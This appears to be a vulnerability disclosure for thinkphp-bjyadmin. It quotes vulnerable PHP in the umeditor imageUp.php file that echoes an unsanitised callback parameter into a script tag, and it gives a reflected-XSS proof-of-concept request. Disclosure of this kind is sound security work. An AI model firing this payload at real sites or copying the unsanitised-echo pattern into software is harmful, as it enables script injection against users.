 A xss vulnerability in bjyadmin-latest(commit a560fd5).

The path of the vulnerability.

In file https://github.com/baijunyao/thinkphp-bjyadmin/blob/master/Public/statics/umeditor1_2_3/php/imageUp.php

```php
...
$callback=$_GET['callback'];		// Line 19
...
if($callback) {
    echo '<script>'.$callback.'('.json_encode($info).')</script>';	//Line 26
}
```


We see that there is no check between the input  $_POST["callback"] and the output(Line 26)

Thus the XSS will happen at `echo '<script>'.$callback.'('.json_encode($info).')</script>';`

Poc:

GET /Public/statics/umeditor1_2_3/php/imageUp.php?callback=%3C/script%3E%3Cscript%3Ealert(1);%3C/script%3E%3C%22

Manual verification:

![alt text](3.png)

![alt text](4.png)

The developers were informed of the report by sending an email on 09/07/2024.